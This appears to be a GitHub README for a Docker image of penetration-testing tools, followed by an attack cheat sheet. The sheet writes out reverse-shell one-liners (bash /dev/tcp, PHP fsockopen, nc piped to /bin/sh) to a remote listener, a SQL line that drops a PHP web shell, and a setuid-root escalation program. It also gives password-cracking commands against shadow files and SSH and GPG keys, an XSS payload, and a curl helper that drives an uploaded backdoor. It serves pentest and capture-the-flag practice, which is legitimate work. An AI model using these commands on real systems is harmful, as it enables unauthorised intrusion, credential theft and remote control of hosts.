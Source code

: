 # hacking tools

## Build from DockerHub
[DockerHub: manigley/hacking-tools](https://hub.docker.com/repository/docker/manigley/hacking-tools)

      docker run -d \
            -p 4040-4080:4040-4080 \
            -v hacking-tools-share:/home/hacker/share:rw \
            --name hacking-tools \
            manigley/hacking-tools

      docker exec -it hacking-tools zsh


## Build from source

> - **build the image**  
>   `git clone https://github.com/roymanigley/docker-hacking-tools.git`  
>   `cd docker-hacking-tools` 
>
> - **build the image**  
>   `docker-compose build` 
>
> - **start the image**  
>   `docker-compose up -d` 
>
> - **open the shell**  
>   `docker-compose exec hacking-tools zsh`  
> the **default password** for the user hacker is **hacker**  
> 
> - **shared folders**  
>   `./hacking-tools-share → /home/hacker/share`  

## push a new version to dockerhub

      export NEW_VERSION=1.0.0
      docker-compose build \
            && docker tag docker-hacking-tools_hacking-tools:latest manigley/hacking-tools:$NEW_VERSION \
            && docker push manigley/hacking-tools:$NEW_VERSION

## Credentials

| Username    | Password |
| ----------- | -------- |
| hacker      | hacker   |

## Tools

| Name        | Installation Path             |
| ----------- | ----------------------------- |
| binwalk     | /usr/bin/binwalk              |
| dirb        | /usr/bin/dirb                 |
| enum4linux  | /usr/share/enum4linux         |
| exploit-db  | /usr/share/exploit-database   |
| gobuster    | /usr/bin/gobuster             |
| hashcat     | /usr/bin/hashcat              |
| hydra       | /usr/bin/hydra                |
| john        | /usr/src/john                 |
| metasploit  | /usr/bin/msfconsole           |
| msfvenom    | /usr/bin/msfvenom             |
| netcat      | /bin/nc.openbsd               |
| nikto       | /usr/bin/nikto                |
| nmap        | /usr/bin/nmap                 |
| openvpn     | /usr/sbin/openvpn             |
| PEASS-ng    | /usr/share//PEASS-ng          |
| sqlmap      | /usr/share/sqlmap             |
| webshells   | /usr/share/webshells          |
| wordlists   | /usr/share/wordlists          |

---

## Helpers

### Links


**find subdomains**
- https://phonebook.cz/

**Find EMail adresses to a domain**
- https://hunter.io/
 
**Reverse Shells**
- https://www.revshells.com/  

**Decoder**
- https://gchq.github.io/CyberChef

**Privilege Escalation**
- https://gtfobins.github.io/


**Cheat Sheets**
- https://pentestmonkey.net/
- https://github.com/swisskyrepo/PayloadsAllTheThings


### SMB

      smbclient -L \\\\$TARGET_HOST
      smbclient \\\\$TARGET_HOST\\ADMIN$ -U Anonymous

      enum4linux -u $TARGET_HOST
      enum4linux -s $TARGET_HOST

### BruteForce

      /usr/src/john/run/unshadow passwd.txt shadow.txt > unshadowed.txt
      /usr/src/john/run/john --format=crypt --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
      /usr/src/john/run/john --format=crypt --show unshadowed.txt

      /usr/src/john/run/john --format=raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
      /usr/src/john/run/john --format=raw-MD5 --show hash.txt

      python3 /usr/src/john/run/ssh2john id_rsa > id_rsa.hash
      /usr/src/john/run/john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
      /usr/src/john/run/john --show id_rsa.hash

      python3 /usr/src/john/run/gpg2john asdfgpg.priv > gpg.hash
      /usr/src/john/run/john --wordlist=/usr/share/wordlists/rockyou.txt gpg.hash
      /usr/src/john/run/john --show gpg.hash

### Privilege Escalation

-     uname -a; lsb_release -a; w; id;
-     find / -perm -u=s -type f 2>/dev/null
-     chmod u+s /bin/bash # as root

-     vim /tmp/ecalate.c

      #include <unistd.h>

      int main() {
        setgid(0);
        setuid(0);
        execl("/bin/bash", "bash", (char *)NULL);
        return 0;
      }

      gcc /tmp/ecalate.c -o /tmp/ecalate
      chown root:root /tmp/ecalate
      chmod u+s /tmp/ecalate && chmod g+s /tmp/ecalate

### Shell spawning
-     nmap --interactive
      !sh
-     zip xy.zip -T -TT 'bash #'
-     python -c 'import pty;pty.spawn("/bin/bash")'
-     python -c 'import os; os.system("/bin/sh")'


> stable shell (allow CTRL+c, autocomplete etc.)  
```
CTRL+z
stty raw -echo
fg
reset
```

### RSH
> more in [RSH.md](RSH.md) or at [revshells.com](https://www.revshells.com/)

-     SELECT '<?php system($_GET["cmd"]); ?>' INTO dumpfile ‘/tmp/somefile’;

-     bash -i >& /dev/tcp/10.0.0.1/4040 0>&1

-     php -r '$sock=fsockopen("10.0.0.1",4040);exec("/bin/sh -i <&3 >&3 2>&3");'

-     nc 10.0.0.1 4040 | /bin/sh | nc 10.0.0.1 4242

### XSS

-     <img src="!" onerror="alert(1);">

### Scripts 
-     type nc; type netcat; type python; type python2; type python3 


      function myrsh {
            declare param=$(omz_urlencode "$1")
            curl "http://10.10.48.94/uploads/php-backdoor.phtml?cmd=$param"
      }